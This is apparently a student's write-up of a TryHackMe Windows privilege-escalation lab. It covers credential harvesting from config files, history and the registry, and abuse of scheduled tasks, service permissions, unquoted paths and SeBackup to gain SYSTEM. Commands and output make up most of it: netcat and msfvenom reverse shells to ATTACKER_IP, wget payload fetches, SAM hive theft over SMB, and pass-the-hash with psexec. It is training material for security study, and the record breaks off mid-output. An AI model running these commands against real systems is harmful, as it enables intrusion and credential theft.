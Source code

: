 # TRYHACKME : Windows Privilege Escalation

> Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:
> - Misconfigurations on Windows services or scheduled tasks
> - Excessive privileges assigned to our account
> - Vulnerable software
> - Missing Windows security patches

## Windows User
| User Type | Privileges |
|---|---|
| Administrator | -> have the most privileges -> can change any system configuration parameter & access any file in the system |
| Standard Users | -> can access the computer but only perform limited tasks -> these users can not make permanent or essential changes to the system and are limited to their files |

| Special Built-in Accounts | |
|---|---|
| SYSTEM / LocalSystem | -> account used by the operating system to perform internal tasks -> has full access to all files and resources available on the host -> has higher privileges than administrators |
| Local Service | -> default account -> minimum privileges -> uses anonymous connections over the network |
| Network Service | -> default account -> minimum privileges -> use the computer credentials to authenticate through the network |

<details markdown=1>
<summary><h2> 1. Harvesting Passwords from Usual Spots </h2></summary>
  
> This task will present some known places to look for passwords on a Windows system.
>
> Start the target machine. If using 
>
>> Username: `thm-unpriv` Password: `Password321`
>
> # A. Unattended Windows Installations
> When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network.
> 
>> These kinds of installations are referred to as unattended installations as they don't require user interaction.
>
> Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
>```
>    C:\Unattend.xml
>    C:\Windows\Panther\Unattend.xml
>    C:\Windows\Panther\Unattend\Unattend.xml
>    C:\Windows\system32\sysprep.inf
>    C:\Windows\system32\sysprep\sysprep.xml
> ```
>
> In these type of files, you might encounter credentials such as:
> ```
>  <Credentials>
>     <Username>Administrator</Username>
>     <Domain>thm.local</Domain>
>     <Password>MyPassword123</Password>
>  </Credentials>
> ```
> ## TARGET MACHINE:
>> ```
>> more C:\Unattend.xml => (cannot access file / file not found)
>> more C:\Windows\Panther\Unattend.xml => (cannot access file / file not found)
>> dir C:\Windows\Panther\Unattend => (empty folder)
>> more C:\Windows\system32\sysprep.inf => (cannot access file / file not found)
>> dir C:\Windows\system32\sysprep
>>       <DIR> ActionFiles
>>       <DIR> en-us
>>       <DIR> Panther
>>       sysprep.exe
>> more C:\Windows\system32\sysprep\sysprep.xml => (cannot access file / file not found)
>> ```
>> 
> 
> # B. Powershell History
> All commands run using Powershell gets stored into a file that keeps a memory of past commands.
>
>> It can later be retrieved by using the following command from a `cmd.exe` prompt (it won't work in Powershell; in order to read the file from Powershell, replace `%userprofile%` into `$Env:userprofile`)
>
> ```
> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
>> ls
>> whoami
>> whoami /priv
>> whoami /group
>> whoami /groups
>> cmdkey /?
>> cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z        // WAHH CREDENTIALS!!!
>> cmdkey /list
>> cmdkey /delete:thmdc.local
>> cmdkey /list
>> runas /?
>> ```
>
> # C. Saved Windows Credentials
> Windows allows us to use other users' credentials.
>
> The command below will list saved credentials:
> ```
> cmdkey /list
> ```
>
> Regardless of not seeing actual passwords, credentials alone are worth trying. Use them with the `runas` command and the `/savecrad` option:
> ```
> runas /savecred /user:admin cmd.exe
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>cmdkey /list
>>
>> Currently stored credentials:
>>
>>     Target: Domain:interactive=WPRIVESC1\mike.katz
>>     Type: Domain Password
>>     User: WPRIVESC1\mike.katz
>> 
>> C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
>> Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
>>
>> (opens another cmd terminal)
>>
>> C:\Windows\system32>whoami
>> wprivesc1\mike.katz
>> C:\Windows\system32>more C:\Users\mike.katz\Desktop\flag.txt
>> // FLAG ANSWER
>> ```
>
> # D. IIS Configuration
> Internet Information Services (IIS) is the default web server on Windows installations.
>
>> IIS websites' configuration is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
>
> Depending on the installed version, `web.config` can be found on ff locations:
>``` 
>    C:\inetpub\wwwroot\web.config
>    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
>```
> 
> To quickly find database connection strings on the file:
> ```
> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
> ```
> ## TARGET MACHINE
>> ```
>> C:\Users\thm-unpriv> more C:\inetpub\wwwroot\web.config => (cannot access file / file not found)
>> C:\Users\thm-unpriv> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>>                 <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false"
>> bufferMode="Notification" name="SqlWebEventProvider"
>> type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
>>                     <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider"
>> type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral,
>> PublicKeyToken=b03f5f7f11d50a3a" />
>>     <connectionStrings>
>>         <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />  // WAHH CREDENTIALS !!!
>> </connectionStrings>
>> ```
>
> # E. Retrieve Credentials from Software: PuTTY
> **PuTTY** is an SSH client commonly found on Windows systems. It is created by Simon Tatham (his name is part of the path, not the username to retrieve password).
>
> Users can store sessions (IP, user, and other configurations) instead of having to specify a connection's parameters every single time. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
>
> To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword w/ the ff command:
> ```
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
> ```
> Stored proxy username should also be visible after running the command above.
>
> # TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
>> HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
>> 
>>     ProxyExcludeList    REG_SZ
>>     ProxyDNS    REG_DWORD    0x1
>>     ProxyLocalhost    REG_DWORD    0x0
>>     ProxyMethod    REG_DWORD    0x0
>>     ProxyHost    REG_SZ    proxy
>>     ProxyPort    REG_DWORD    0x50
>>     ProxyUsername    REG_SZ    thom.smith
>>     ProxyPassword    REG_SZ    CoolPass2021    // WAHH CREDENTIALS !!!
>>     ProxyTelnetCommand    REG_SZ    connect %host %port\n
>>     ProxyLogToTerm    REG_DWORD    0x1
>>
>> End of search: 10 match(es) found.
>> ```
>>
</details>

<details>
<summary><h2> 2. Other Quick Wins </h2></summary>
  
> Privilege escalation is not always a challenge.
>
> Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access.
>
> # A. Scheduled Tasks
> Some scheduled task might either lost its binary or it's using a binary you can modify.
>
> Scheduled tasks can be listed from the command line using the `schtasks` command without any options.
>
> To retrieve more detailed information about any of the services you can type
> ```
> C:\> schtasks /query /tn vulntask /fo list /v
> Folder: \
> HostName:                             THM-PC1
> TaskName:                             \vulntask
> Task To Run:                          C:\tasks\schtask.bat
> Run As User:                          taskusr1
> ```
> ### Two Important Parameters:
>> - **Task to Run** = indicates what gets executed by the scheduled task
>> - **Run As User** = shows the user that will be used to execute the task
>
> If modifiable, we can control what gets executed by the taskuser1, resulting in a simple privilege escalation.
> 
> Use `icacls` to check permissions on the executable:
> ```
> C:\> icacls c:\tasks\schtask.bat
> c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
>                     BUILTIN\Administrators:(I)(F)
>                     BUILTIN\Users:(I)(F)
> ```
> The **BUILTIN/Users** group has full access (F) over the task's binary. That means we can modify the .bat file and insert any payloads we like.
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe <ATTACKER-IP> 4444 > C:\tasks\schtask.bat
>>
>> C:\Users\thm-unpriv>schtasks /run /tn vulntask
>> SUCCESS: Attempted to run the scheduled task "vulntask".
>> ```
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> Listening on 0.0.0.0 4444
>> Connection received on 10.10.89.191 49907
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\taskusr1
>>
>> C:\Windows\system32>more C:\Users\taskuser1\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```
>
> # B. AlwaysInstallElevated
> Windows installer files (.msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
>
> However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
>
>> **NOTE:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
> 
> This method required two registry values to be set. Otherwise, exploitation will not be possible. You can query these from the command line using the commands below:
>> ```
>> C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
>> C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
>> ```
>
> After setting the two, you can generate a malicious .msi file using `msfvenom`, as seen below:
> ```
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
> ```
> As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
> ```
> C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
> ```
  
</details>

<details> 
<summary><h2> 3. Abusing Service Misconfigurations </h2></summary>

> # A. Windows Services
> Window servies are managed by the **Service Control Manager (SCM)**. Its in charge of managing the state of service as needed, checking the current status of any given service and generally providing a way to configure services.
> 
>> Each service will have associated executable which will be run by SCM whenever a service is started.
>
> Service executables implement _special functions_ to be able to communicate with the SCM. Therefore, not any executable can be started as a service succesfully.
>
>> Each service also specifies the **user account** under which the service will run.
>
> To check the structure of a service, let's check as an example the `apphostsvc` service configuration with the `sc qc` command:
> 
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc apphostsvc
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: apphostsvc
>>         TYPE               : 20  WIN32_SHARE_PROCESS\
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 1   NORMAL
>>         BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
>>         LOAD_ORDER_GROUP   :        TAG                : 0
>>         DISPLAY_NAME       : Application Host Helper Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : localSystem
>> ```
> Here we can see the _associated executable_ is specified throught the **BINARY_PATH_NAME** parameter, and the _account used_ to urn the service is shown on the **SERVICE_START_NAME** parameter.
>
>> Services have a **Discretionary Access Control List (DACL)**, which indicates _who has permission_ to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.
>
> DACL can be seen from **Process Hacker** on THM's target machine's desktop. Then click on Services Tab > AppHOstSvc > Security Tab. You'll see the group or user names and their permissions.
>
> While all the services configuration are stored on the **Registry Editor** under `HKLM\SYSTEM\CurrentControlSet\Services\AppHostSvc`
>
>> A **subkey** exist for every service in the system. We can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**.
>
> # B. Insecure Permissions on Service Executable
>
> If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.
>
> To understand how this works, let's look at a vulnerability found on **Splinterware System Scheduler**. To start, we will query the service configuration using sc:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc WindowsScheduler
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: WindowsScheduler
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 0   IGNORE
>>         BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
>>         LOAD_ORDER_GROUP   :
>>         TAG                : 0
>>         DISPLAY_NAME       : System Scheduler Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : .\svcusr1
>> ```
 
> We can see that the service installed by the vulnerable software runs as **svcuser1** and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
>> C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
>>                                   NT AUTHORITY\SYSTEM:(I)(F)
>>                                   BUILTIN\Administrators:(I)(F)
>>                                   BUILTIN\Users:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
>>
>> Successfully processed 1 files; Failed processing 0 files
>> ```
> And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. **This means we can simply overwrite it with any payload of our preference**, and the service will execute it with the privileges of the configured user account.
>
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
>>
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> We can then pull the payload from Powershell with the following command:
> ### TARGET MACHINE:
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
>> ```
>
> Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
>
> ### TARGET MACHINE:
>> ```
>> C:\> cd C:\PROGRA~2\SYSTEM~1\
>>
>> C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> ```
>
> We start a reverse listener on our attack machine:
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445 // OR socat TCP-L:4445 
>> ```
>
> And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
>
> ### TARGET MACHINE:
>> ```
>> C:\> sc stop windowsscheduler
>> C:\> sc start windowsscheduler
>> ```
> > Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.
>
> As a result, you'll get a reverse shell with svcusr1 privileges
> 
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445
>> Listening on 0.0.0.0 4445
>> Connection received on 10.10.175.90 50649
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr1
>> 
>> C:\Windows\system32> more C:\Users\svcusr1\Desktop\flag.txt
>> // RETRIVE FLAG
>> ```
>
> # C. Unquoted Service Paths
> When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.
>
> When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
>
> This simply shows a syntax error in the **BINARY_PATH_NAME**. When a path is not surrounded by double quotation marks, it is not properly configured as there are spaces on the name of the path of the specific service folder. The command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute.
>
> The command prompt will mistakenly interpret the first line as an executable file and the rest, after the space, is taken as arguments.
>
> **Compare:**
> ```
> BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
> ```
> ```
> BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
> ```
>
> From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.
>
> While this sounds trivial, most of the service executables will be installed under C:\Program Files or C:\Program Files (x86) by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.
>
> In our case, the Administrator installed the Disk Sorter binaries under c:\MyPrograms. By default, this inherits the permissions of the C:\ directory, which allows any user to create files and folders in it. We can check this using icacls:
>
> # TARGET MACHINE:
>> ```
>> C:\>icacls c:\MyPrograms
>> c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
>>               BUILTIN\Administrators:(I)(OI)(CI)(F)
>>               BUILTIN\Users:(I)(OI)(CI)(RX)
>>               BUILTIN\Users:(I)(CI)(AD)
>>               BUILTIN\Users:(I)(CI)(WD)
>>               CREATOR OWNER:(I)(OI)(CI)(IO)(F)
>>
>> Successfully processed 1 files; Failed processing 0 file
>> ```
>
> The BUILTIN\\Users group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
>> 
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> nc -lvnp 4446 // OR socat TCP-L:4446 -
>> ```
>
>  Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to **C:\MyPrograms\Disk.exe**. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:
>
> # TARGET MACHINE:
>> ```
>> C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
>>
>> C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> 
>> C:\> sc stop "disk sorter enterprise"
>>
>> C:\> sc start "disk sorter enterprise"
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4446
>> Listening on 0.0.0.0 4446
>> connection received on 10.10.175.90 50650
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr2
>>
>> C:\Windows\system32>more C:\Users\svcusr2\Desktop\flag.txt
>> more C:\Users\svcusr2\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

> # D. Insecure Service Permissions
> You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted.
>
> Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
>
> To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite. For your convenience, a copy is available at C:\\tools. The command to check for the thmservice service DACL is:
>
> # TARGET MACHINE:
>> ```
>> C:\>cd C:\tools\AccessChk && accesschk64.exe -qlc thmservice
>> 
>> Accesschk v6.14 - Reports effective permissions for securable objects
>> Copyright ⌐ 2006-2021 Mark Russinovich
>> Sysinternals - www.sysinternals.com
>>
>> thmservice
>>   DESCRIPTOR FLAGS:
>>       [SE_DACL_PRESENT]
>>       [SE_SACL_PRESENT]
>>       [SE_SELF_RELATIVE]
>>   OWNER: NT AUTHORITY\SYSTEM
>>   [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
>>         SERVICE_QUERY_STATUS
>>         SERVICE_QUERY_CONFIG
>>         SERVICE_INTERROGATE
>>         SERVICE_ENUMERATE_DEPENDENTS
>>         SERVICE_PAUSE_CONTINUE
>>         SERVICE_START
>>         SERVICE_STOP
>>         SERVICE_USER_DEFINED_CONTROL
>>         READ_CONTROL
>>   [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators  // TAKE NOTE
>>         SERVICE_ALL_ACCESS
>> ```
> Here we can see that the **BUILTIN\\Users** group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
>
> Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
>>
>> user@attackerpc$ python3 -m http.server 9000
>> Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
>> ```
> 
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://10.4.124.80:9000/rev-svc3.exe -O rev-svc3.exe
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
>>
>> C:\>sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
>> [SC] ChangeServiceConfig SUCCESS
>>
>> C:\>sc stop THMService
>> [SC] ControlService FAILED 1062:
>>
>> The service has not been started.
>>
>> C:\>sc start THMService
>>
>> SERVICE_NAME: THMService
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         STATE              : 4  RUNNING
>>                                 (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
>>         WIN32_EXIT_CODE    : 0  (0x0)
>>         SERVICE_EXIT_CODE  : 0  (0x0)
>>         CHECKPOINT         : 0x0
>>         WAIT_HINT          : 0x0
>>         PID                : 2884
>>         FLAGS              :
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> $ socat TCP-L:4447 -
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> NT AUTHORITY\SYSTEM
>>
>> C:\Windows\system32>more C:\Users\Administrator\Desktop\flag.txt
>> more C:\Users\Administrator\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

</details>

<details>
<summary><h2> 4. Abusing Dangerous Privileges </h2></summary>

> # A. Windows Privileges
> Each user has a set of privileges that can be checked with the following command:
>> ```
>> whoami /priv
>> ```
>
> A complete list of available privileges on Windows systems is available [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.
>
> While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.
>
> # B. SeBackup / SeRestore
> The **SeBackup** and **SeRestore** privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to _perform backups from a system without requiring full administrative privileges_.
>
> Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives **to extract the local Administrator's password hash**.
>
> Log in to the target machine via RDP using the following credentials:
> 
> User: `THMBackup` Password: `CopyMaster555`
>
>> Open command prompt as administrator. Check the account privileges with the ff command:
>
> ### TARGET MACHINE:
>> ```
>> C:\> whoami /priv
>>
>> PRIVILEGES INFORMATION
>> ----------------------
>>
>> Privilege Name                Description                    State
>> ============================= ============================== ========
>> SeBackupPrivilege             Back up files and directories  Disabled
>> SeRestorePrivilege            Restore files and directories  Disabled
>> SeShutdownPrivilege           Shut down the system           Disabled
>> SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
>> SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
>> ```
>
>> To backup the SAM and SYSTEM hashes, we can use the ff. command:
>
> ### TARGET MACHINE:
>> ```
>> C:\> reg save hklm\system C:\Users\THMBackup\system.hive
>> The operation completed successfully.
>>
>> C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
>> The operation completed successfully.
>> ```
>
> This creates duplicate files with the registry hives content.
>
> We can now copy these files to our attacker machine using SMB or any other available method.
>
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ mkdir share
>> user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share 
>>
>> Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
>> [*] Config file parsed
>> [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
>> [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
>> [*] Config file parsed
>> ```
>>> IF PYTHON 3.9 DOESNT WORK TO YOU OR if folders from the example can't be found, look for the file dir path:
>>> ```
>>> find / -type f -name "smbserver.py" 2>/dev/null
>>> ```
> This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, use impacket to retrieve the users' password hashes:
> 
> ### TARGET MACHINE:
>> ```
>> C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
>> C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
>
> ### ATTACKER MACHINE:
>> ```
>> Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
>>
>> [*] Config file parsed
>> [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
>> [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
>> [*] Config file parsed
>> [*] Config file parsed
>> [*] Incoming connection (10.10.8.143,49881)
>> [*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
>> [*] User WPRIVESC2\THMBackup authenticated successfully
>> [*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:2e1d19e8982a827d9c10a33cf2c4df23:010100000000000080af2eeef193db010627d4ce767c439500000000010010006300780052005200690072004500610003001000630078005200520069007200450061000200100067004700560076005500620055006a000400100067004700560076005500620055006a000700080080af2eeef193db010600040002000000080030003000000000000000000000000030000046636b1266546c840d57fc859740047f5562371c3529f221463ce045cc00aa270a001000000000000000000000000000000000000900200063006900660073002f00310030002e0034002e003100320034002e00380030000000000000000000
>> [*] Connecting Share(1:IPC$)
>> [*] Connecting Share(2:public)
>> [*] Disconnecting Share(1:IPC$)
>> [*] Disconnecting Share(2:public)
>> [*] Closing down connection (10.10.8.143,49881)
>> [*] Remaining connections []
>> [*] Incoming connection (10.10.8.143,49887)
>> [*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
>> [*] User WPRIVESC2\THMBackup authenticated successfully
>> [*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:ddda436b4b94a94b91d2649b99f5ae95:0101000000000000004bba32f293db01030e61cff7f1225b00000000010010006300780052005200690072004500610003001000630078005200520069007200450061000200100067004700560076005500620055006a000400100067004700560076005500620055006a0007000800004bba32f293db010600040002000000080030003000000000000000000000000030000046636b1266546c840d57fc859740047f5562371c3529f221463ce045cc00aa270a001000000000000000000000000000000000000900200063006900660073002f00310030002e0034002e003100320034002e00380030000000000000000000
>> [*] Connecting Share(1:public)
>> ```
> We can finally use the Administrator's hash to perform a **Pass-the-Hash attack** and gain access to the target machine with SYSTEM privileges:
> 
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ cd share  // if not in the share dir yet
>> user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
>> Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
>>
>> [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
>> [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
>> Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
>> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
>>
>> user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.8.143
>> Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
>>
>> [*] Requesting shares on 10.10.175.90.....
>> [*] Found writable share ADMIN$
>> [*] Uploading file nfhtabqO.exe
>> [*] Opening SVCManager on 10.10.175.90.....
>> [*] Creating service RoLE on 10.10.175.90.....
>> [*] Starting service RoLE.....
>> [!] Press help for extra shell commands
